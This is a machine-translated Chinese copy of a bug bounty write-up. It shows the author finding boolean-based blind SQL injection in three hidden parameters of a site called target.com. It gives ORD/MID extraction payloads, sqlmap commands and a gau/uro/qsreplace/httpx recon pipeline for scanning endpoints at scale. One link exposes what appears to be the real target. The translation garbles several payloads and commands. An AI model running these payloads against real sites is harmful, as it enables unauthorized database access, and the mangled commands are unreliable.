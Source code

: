 # 我是如何在 Bug Bounty 中发现 5 分钟内多次 SQL 注入的

> 原文：<https://infosecwriteups.com/how-i-found-multiple-sql-injections-in-5-minutes-in-bug-bounty-40155964c498?source=collection_archive---------0----------------------->

大家好，SQL 注入是 web 应用程序中最严重的漏洞之一，今天我将向大家展示我是如何发现多个 SQL 注入漏洞的，所以让我们把我们的目标称为**target.com**

![](img/10c6b0aced210c0d0eb9994a24d0a455.png)

当我快速浏览 HTML 代码时

![](img/f2e861019f2b46d28b55a834d3d11bba.png)

我发现有两个隐藏的参数
，所以我开始通过添加单引号来测试字母参数

![](img/8e752a75c63a66f3124ff188877dd802.png)

我得到了响应代码 200 OK，这意味着他们做了一些错误处理

但是响应是查询失败，看起来像是数据库在后台处理了我们的查询

让我们试着知道这里有多少列

> ？字母=a '按 2-V 排序

![](img/b97ca6d805c661aa8348909aab071b2d.png)

我的查询失败了

> ？字母=a '按 1-V 排序

![](img/a92f32b13c7d0f31ee61928e2aeba9c7.png)

它执行了，但没有得到“查询失败:”

所以让我们试着提取版本

> ？letter=a '联合选择版本()— -

![](img/9724f9f7dfc4b9857fc750c0eb4571dd.png)

查询已执行，但未获得响应的版本

所以我开始使用盲 SQL 注入技术来过滤数据

> ？字母=a '和'奥马尔' = '奥马尔'

![](img/ad1025a097535adaf6ba66fbcb6ff32a.png)

> ？字母=a '和'奥马尔' = '非-奥马尔'

![](img/8b3ce187a5ada22c4181400210c3b96e.png)

我们这里有基于布尔的 SQLI

从前面两个条件中，我们注意到

如果我们的条件为真，内容长度将大于 8 万

如果我们的条件为假，内容长度将在 5000 范围内

## 剥削:

> ？letter=a '和 ORD(MID(VERSION()，1，1))>96 和' omar'='omar

MID()函数作为 SUBSTR()和 [SUBSTRING()](https://www.w3schools.com/sql/func_mysql_substring.asp) 函数工作，它们从字符串的任意位置提取子字符串，就像 **MID(VERSION()，1，1)** 将从版本函数中提取第一个字符串 **MID(VERSION()，2，1)** 将从版本函数中提取第二个字符串

函数的作用是:用十进制数值表示你的电脑的所有输入

![](img/1c13243f395d01e2081d087b82351811.png)

ASCII 表

让我们假设 version()的第一个字符串是“a”，因此根据上表，这些函数 ORD(MID(VERSION()，1，1))的混合输出将是 97

我们使用这种技术，而不是做重蛮力，使之智能轻蛮力

因此，我们将根据上表检查第一个字符串是否是小字符

> ？letter=a '和 ORD(MID(VERSION()，1，1))>96 和' omar'='omar

![](img/9b5e48aa2e72f440d3f27014a2711d9c.png)

根据内容长度，条件为假

所以我们将检查第一个字符串是否是大写字符

> ？letter=a '和 ORD(MID(VERSION()，1，1))>64 和' omar'='omar

![](img/88b3bcde93c8d93da8dbedc4ca26f959.png)

根据内容长度，条件为假

所以我们将检查第一个字符串是否是一个数字

> ？letter=a '和 ORD(MID(VERSION()，1，1)) <58 AND ‘omar’=’omar
> 
> ?letter=a’ AND ORD(MID(VERSION(),1,1))> 47 和' omar'='omar

![](img/12b02851a3403187031bcde208b2e9b2.png)![](img/bb5e98f42604967b3d966f596c328200.png)

根据内容长度，这两个查询都是真条件

> ？letter=a '和 ORD(MID(VERSION()，1，1))=53 和' omar'='omar

![](img/f95f7c8d43e244b7e95f59dd81b6ef51.png)

根据内容长度，条件为真

现在我们已经从版本函数中提取了第一个字符串，根据上面的 ASCII 表，它等于 5

这项技术最酷的地方在于，我们可以在不到 10 个请求内完成提取一个子串，而不是做 100 个请求

无论如何，到目前为止，我认为有这样的乐趣就足够了，现在我们应该转移到 sqlmap

> 顺便说一句，前面的技术与 sqlmap 将用来提取横幅的技术相同

## 第一个 SQLI

> python 3 sqlmap . py-u "[https://target.com/target.php?letter=a](https://etcsl.orinst.ox.ac.uk/edition2/etcsllemma.php?letter=a)-p 字母-b

![](img/37107a213b8b689e7045013c87426885.png)

让我们回到 HTML 代码

![](img/f2e861019f2b46d28b55a834d3d11bba.png)

如果你记得我们有两个隐藏的参数“字母”和“位置”

## 第二个 SQLI

因此，让我们测试“pos”参数

> python 3 sqlmap . py-u "【https://target.com/target.php?pos=a T2"-p pos-b

![](img/79ca4dbd92b39e97149eb83cb94bc5cf.png)

通常，开发人员会在整个应用程序中犯同样的错误，所以我在所有参数和端点上自动化了同样的攻击

## 侦察:

我使用 gau 从 AlienVault 的开放威胁交换、Wayback Machine 和 Common Crawl 中收集了端点，然后使用 uro 过滤输出，去掉图像、css 和 js，只获得唯一的端点

> target.com ┌──(omar㉿kali)-[~
> └─$高|乌罗>被动端点

然后获取有参数的端点

> ┌──(omar㉿kali)-[~]
> └─$猫>参数-端点

让我们用单引号替换参数值

> ┌──(omar㉿kali)-[~]
> └─$猫参数-端点| QS replace \ '>sqli-测试-端点

让我们将响应与“查询失败:”相匹配

> ┌──(omar㉿kali)-[~]
> └─$ httpx-l sqli-test-endpoints-ms "查询失败:"

![](img/9fd69d13d4369172e2148a69de6b96f3.png)

## 第三届 SQLI

发现查询的“查找”参数响应失败:

> python 3 sqlmap . py-u "[https://target.com/target.php?lookup=a](https://etcsl.orinst.ox.ac.uk/edition2/etcsllemma.php?letter=a)"-p lookup-b

![](img/efa8eed0bc2f54f315169bd83e223021.png)

我们有新的了

希望你们喜欢这篇报道

# 别忘了保持联系

推特: [@OmarHashem666](https://twitter.com/OmarHashem666)

领英:[https://www.linkedin.com/in/omar-1-hashem](https://www.linkedin.com/in/omar-1-hashem)

YouTube:[https://www.youtube.com/@omarhashem7351](https://www.youtube.com/@omarhashem7351)

## 保持联系:

[**Linkedin**](https://www.linkedin.com/in/omar-1-hashem)**|**[**Youtube**](https://www.youtube.com/channel/UCJ1yNtgZP5LRO7ebZXSnAZQ)**|**[**Twitter**](https://twitter.com/OmarHashem666)

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！